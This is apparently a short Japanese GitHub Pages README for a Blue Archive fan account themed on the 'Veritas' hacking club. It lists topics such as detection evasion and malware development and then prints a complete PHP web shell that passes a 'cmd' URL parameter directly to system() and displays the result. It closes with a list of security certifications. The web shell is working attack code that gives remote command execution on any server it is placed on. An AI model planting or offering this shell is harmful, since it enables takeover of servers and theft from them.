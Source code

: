 # veritas.github.io
BlueArchiveのファンアカウントです。<BR>
ミレニアム学園の共有アカウントです。<BR>

ここは部活で共有したデータ置き場の予定<BR>
marked.jsを使用することで、Markdown形式をそのまま表示させ、ローカルにあるObsidianとの互換性を保つ。<BR>

|A|B|
|-|-|
|検知回避|RFハッキング|
|マルウェア開発|ツール開発|

```php
<html>
    <body>
        <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
            <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
            <input type="SUBMIT" value="Execute">
        </form>
        <pre>
            <?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>
        </pre>
    </body>
</html>
```

---

### VERITASの取得資格<BR>
CISSP<BR>
OSCP<BR>
OSEP<BR>
OSWE<BR>



